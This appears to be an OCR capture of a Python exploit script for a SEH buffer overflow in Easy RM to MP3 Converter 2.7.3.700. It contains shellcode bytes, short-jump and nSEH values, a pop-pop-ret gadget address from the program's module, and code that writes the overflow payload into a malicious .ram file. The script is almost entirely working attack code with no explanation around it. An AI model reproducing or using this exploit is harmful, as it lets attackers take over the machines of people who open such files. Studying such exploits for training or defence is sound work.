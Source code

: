 ```term_session
buf += b"\x5d\x49\x77\x95\x52\xb8\x89\xd1\x54\x23\xfc\x2b\xa7"
buf += b"\xde\x07\xe8\xda\x04\x8d\xeb\x7c\xce\x35\xd0\x7d\x03"
buf += b"\xa3\x93\x71\xe8\xa7\xfc\x95\xef\x64\x77\xa1\x64\x8b"
buf += b"\x58\x20\x3e\xa8\x7c\x69\xe4\xd1\x25\xd7\x4b\xed\x36"
buf += b"\xb8\x34\x4b\x3c\x54\x20\xe6\x1f\x32\xb7\x74\x1a\x70"
buf += b"\xb7\x86\x25\x24\xd0\xb7\xae\xab\xa7\x47\x65\x88\x48"
buf += b"\xaa\xac\xe4\xe0\x73\x25\x45\x6d\x84\x93\x89\x88\x07"
buf += b"\x16\x71\x6f\x17\x53\x74\x2b\x9f\x8f\x04\x24\x4a\xb0"
buf += b"\xbb\x45\x5f\xd3\x5a\xd6\x03\x3a\xf9\x5e\xa1\x42"

sjmp = "\xE9\x73\xEC\xFF\xFF"
nseh = "\xEB\xF9\x90\x90"
seh = "\x3C\x56\x40" # 0x0040563c : pop ebx # pop ebp # ret 0x04 | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] 
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)

buffer = "A" * 44000 + buf + "A" * (45388 - 44000 - len(buf) - 5) + sjmp + nseh + seh

f = open ("finding2.ram", "w")
f.write(buffer)
f.close()
```
